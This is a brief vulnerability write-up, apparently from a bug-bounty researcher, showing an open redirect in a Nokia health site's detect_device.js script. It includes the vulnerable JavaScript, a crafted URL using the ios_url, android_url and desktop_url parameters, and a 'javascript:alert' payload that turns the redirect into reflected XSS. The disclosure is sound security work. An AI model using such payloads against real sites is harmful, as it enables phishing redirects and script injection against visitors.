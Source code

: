 #### hi when i visiting this link http://static.health.nokia.com/content/crm/redirect_url/ you can see this page
<img src='src/sc.png'>

### hmmm lets reading js files :v
#### in this file `http://static.health.nokia.com/content/crm/redirect_url/js/detect_device.js` you can see this lines

<img src='src/lines.png'>

#### from this code you can redirect the user to any website

#### if the vicitm are using ios you need ios_url parameter

```javascript
    var ios_redirect = getURLParameter("ios_url");
    if (ios_redirect != null) {
      location.href = ios_redirect;
    }
```
#### Android you need android_url parameter

```javascript
  else if( userAgent.match( /Android/i ) )
  {
    var android_redirect = getURLParameter("android_url");
    if (android_redirect != null) {
     location.href = android_redirect;
    }
  }
```

#### others os you need desktop_url parameter

```javascript
  {
    var desktop_redirect = getURLParameter("desktop_url");
    if (desktop_redirect != null) {
      location.href = desktop_redirect;
    }
  }
```

#### you can add all parameters in the url like this `http://static.health.nokia.com/content/crm/redirect_url/?desktop_url=http://google.com&android_url=http://google.com&ios_url=http://google.com` boom worked in all devices

#### impact is very low :(
#### hmmm let's change it from open redirect to xss reflected using this payload `javascript:alert('@knassar702')`

<img src='src/xsso.png'>
